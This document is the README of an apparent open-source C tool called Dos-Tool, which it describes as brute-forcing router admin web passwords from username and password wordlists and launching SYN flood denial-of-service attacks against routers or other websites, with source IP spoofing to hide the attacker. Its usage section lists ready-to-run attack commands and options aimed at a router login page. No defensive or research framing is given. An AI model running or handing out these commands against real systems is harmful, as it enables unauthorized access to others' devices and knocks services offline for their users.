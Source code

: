 # Dos-Tool

## Intro

[Dos-Tool](https://github.com/rikonaka/DoS-Tool) is used to guess the WiFi manage password or use DoS make it can NOT work, the DoS method also could attack other website not just router.

Current version: 0.20 | [Changelog](CHANGELOG.md)

## Features

DoS-Tool is written in pure C, in order to keep the resource usage as low as possible.

## Installation


## Usage

Usage: dostool [option]

Example:
./dostool -a 0 -u "admin" -i "http:\\192.168.1.1:80/login.asp
./dostool -a 0 -U "/path/username.txt" -P "/path/password.txt"
./dostool -a 0 -u "admin" -P "/path/password.txt"
./dostool -a 0 -P "/path/password.txt"
./dostool -a 1 -i "192.168.1.1:80" -i "http:\\192.168.1.1:80/login.asp"

-a <attack_mode>        Indicate attack mode
                        0    Guess the web password
                        1    Syn flood attack

-u <user_name>          Indicate user-provided username (default 'admin', must use with -a 0)
-U <user_name_file>     Indicate user-provided username file (must use with -a 0 and -P)
-P    Indicate user-provided password file (must use with -a 0)
-r    Indicate random password generate length (default 8)
-d    Indicate debug level (default 0)
      0    turn off the debug show
      1    show less debug message
      2    show verbose debug message
      3    show all debug message
-p    Set the process number (default 4)
-t    Set the thread number (default 2)
-i    Indicate intent URL address (user shoud indicate the port in thr URL)
-m    Type of router
      feixun_fwr_604h .etc
-h    Show this message
--get-response-length    Get the response length for test
--set-watch-length       Indicate a length, if response's length not equal this, return
-R    Use the random source IP address in dos attack (can not use in the guess password attack)
      0    turn off the random source ip address which can protect you true IP in the local net
      1    enable random source ip address (default)
--ip-repeat-time         if you use the -R, indicate the each random ip repeat send times(default 1024)
